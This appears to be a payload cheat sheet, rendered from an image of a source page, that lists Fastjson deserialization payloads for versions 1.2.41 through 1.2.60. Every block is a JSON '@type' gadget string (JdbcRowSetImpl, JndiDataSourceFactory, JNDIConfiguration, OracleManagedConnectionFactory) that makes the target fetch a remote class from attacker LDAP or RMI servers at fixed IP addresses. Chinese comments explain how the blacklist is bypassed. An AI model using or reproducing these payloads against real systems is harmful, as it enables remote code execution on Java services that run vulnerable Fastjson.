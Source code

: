 
* 1.2.41

```bash
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://47.52.233.92:9999/expUseful", "autoCommit":true}
// 直接加 [ 是不可以的，因为数组实例化的是Object类型，所以需要将传入的变量设置为数组格式，然后在com.alibaba.fastjson.serializer.ObjectArrayCodec中通过数组对象的getComponentType()可以获得数组元素，即com.sun.rowset.JdbcRowSetImpl对象
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://47.52.233.92:9999/expUseful","autoCommit":true]}
```

* 1.2.42

```bash
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://47.52.233.92:9999/expUseful", "autoCommit":true}
//原来在41版本的[还能用
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://47.52.233.92:9999/expUseful","autoCommit":true]}
```

* 1.2.43

```bash
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://47.52.233.92:9999/expUseful"}}
```
* 1.2.45

```bash
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://47.52.233.92:9999/expUseful"}}
```
* 1.2.47

```bash
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.52.233.92:9999/expUseful","autoCommit":true}}}

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://47.52.233.92:9999/expUseful","autoCommit":true}}}

```
* 1.2.60

```bash
{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://47.52.233.92:9999/expUseful"}
```

```bash
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"ldap://47.52.233.92:9999/expUseful"}
```


{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}
{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}
